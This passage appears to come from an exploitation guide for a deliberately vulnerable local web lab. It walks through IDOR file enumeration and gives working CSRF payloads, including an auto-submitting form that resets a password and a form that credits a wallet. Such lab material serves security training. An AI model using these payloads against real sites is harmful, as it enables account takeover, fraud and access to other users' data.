 ### File Access IDOR
```bash
# Access any uploaded file
GET /file/1
GET /file/2
```

### Automated Testing
```bash
python exploits/idor_exploit.py
```

### Exploitation Steps
1. Login as regular user
2. Note your user ID from URL
3. Modify ID parameter to access other users' data
4. Test different endpoints with various IDs

---

## 6. Cross-Site Request Forgery (CSRF)

### 🎯 Target: Sensitive actions without CSRF protection

### Password Change CSRF
```html
<!-- csrf_demo.html -->
<html>
<body onload="document.forms[0].submit()">
<form action="http://127.0.0.1:5002/change_password" method="POST">
    <input type="hidden" name="new_password" value="hacked123">
    <input type="hidden" name="confirm_password" value="hacked123">
</form>
</body>
</html>
```

### Money Transfer CSRF
```html
<form action="http://127.0.0.1:5002/admin_wallet" method="POST">
    <input type="hidden" name="user_id" value="2">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="action" value="add">
</form>
```

### Testing Steps
1. Create malicious HTML file
2. Serve it on different domain/port
3. Trick authenticated user to visit
4. Actions execute with user's privileges

---
